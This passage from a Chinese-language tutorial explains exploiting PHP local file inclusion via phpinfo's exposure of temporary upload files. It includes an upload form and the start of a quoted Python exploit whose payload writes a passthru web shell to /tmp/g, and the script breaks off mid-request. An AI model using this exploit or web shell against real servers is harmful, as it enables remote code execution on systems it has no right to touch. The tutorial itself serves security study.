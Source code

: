 
## with phpinfo

PHP引擎对`enctype="multipart/form-data"`这种请求的处理过程如下
1. 请求到达；
<li>创建临时文件，并写入上传文件的内容；文件为`/tmp/php[w]`{`6`}``
</li>
1. 调用相应PHP脚本进行处理，如校验名称、大小等；
1. 删除临时文件。
构造一个html文件来发送上传文件的数据包

```
&lt;form action="http://192.168.211.146/phpinfo.php" method="post"
enctype="multipart/form-data"&gt;
&lt;label for="file"&gt;Filename:&lt;/label&gt;
&lt;input type="file" name="file" id="file" /&gt; 
&lt;br /&gt;
&lt;input type="submit" name="submit" value="Submit" /&gt;
&lt;/form&gt;
```

`phpinfo`可以输出`$_FILES`信息，包括临时文件路径、名称

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/04/26/EniKRx.png)

可以通过分块传输编码，发送大量数据来争取时间，在临时文件删除之前执行包含操作

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/04/26/EniuJ1.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/04/26/EniniR.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2019/04/26/Enieo9.png)

[https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) 中的exp：

```
#!/usr/bin/python
import sys
import threading
import socket
def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%sr
&lt;?php $c=fopen('/tmp/g','w');fwrite($c,'&lt;?php passthru($_GET["f"]);?&gt;');?&gt;r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"r
Content-Type: text/plainr
r
%s
-----------------------------7dbff1ded0714--r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""r
HTTP_ACCEPT: """ + padding + """r
HTTP_USER_AGENT: """+padding+"""r
HTTP_ACCEPT_LANGUAGE: """+padding+"""r
HTTP_PRAGMA: """+padding+"""r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714r
Content-Length: %sr
```